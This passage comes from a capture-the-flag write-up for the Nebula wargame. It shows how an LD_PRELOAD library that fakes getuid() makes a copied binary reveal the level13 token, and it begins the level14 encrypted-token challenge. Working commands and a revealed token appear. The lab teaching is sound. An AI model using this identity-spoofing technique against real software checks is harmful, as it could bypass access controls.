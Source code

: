 I decided to 'override' the `getuid()` function so that it would return the value of the `FAKEUID` constant in the program, instead of the value the real `getuid()` would have returned. For that to happen, I looked up the arguments for `getuid()` from the man page and copied that for my own purposes. I then compiled it as a shared library with the famous `-shared -fPIC` arguments for position independent code and exported the `LD_PRELOAD` variable prior to running the binary.

One important thing to note here is that this 'hack' has a few gotchas. The executing binary and the library needs to be relative to each other. SETUID programs discard the `LD_PRELOAD` environment variable (for obvious reasons) so this is not a privilege escalation. In the source code we have received, there is a portion excluded (that probably just prints the token :P) on purpose. This means we can copy the binary and still be able to get the desired effect. Of course, we could also resort to slapping this into a debugger and checking what it is doing under the hood, but given the nature of Nebula, I figured the point is to actually override `getuid()`.

So, to solve level13:

```bash
level13@nebula:/var/tmp$ cp ~flag13/flag13 .

level13@nebula:/var/tmp$ cat fake_getuid.c
#include<unistd.h>

uid_t getuid(void) {
    return 1000;
}

level13@nebula:/var/tmp$ gcc -shared -fPIC /var/tmp/fake_getuid.c -o /var/tmp/fake_getuid.o

level13@nebula:/var/tmp$ LD_PRELOAD=/var/tmp/fake_getuid.o ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58

level13@nebula:/var/tmp$ su - flag13
Password:
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## level14

[Level14's Description](https://exploit-exercises.com/nebula/level14/):
{% blockquote %}
This program resides in /home/flag14/flag14. It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :)
{% endblockquote %}

Logged in as user `level14`, we see 2 files in the `flag14` directory:

```bash
level14@nebula:~$ cd ~flag14
level14@nebula:/home/flag14$ ls -lh
total 8.0K
-rwsr-x--- 1 flag14  level14 7.2K 2011-12-05 18:59 flag14
-rw------- 1 level14 level14   37 2011-12-05 18:59 token

level14@nebula:/home/flag14$ cat token
857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
```
`token` obviously being the target to decrypt. Running `flag14` tells us that it is expecting a `-e` flag to encrypt. So, I tested the encryption to see how it behaves:
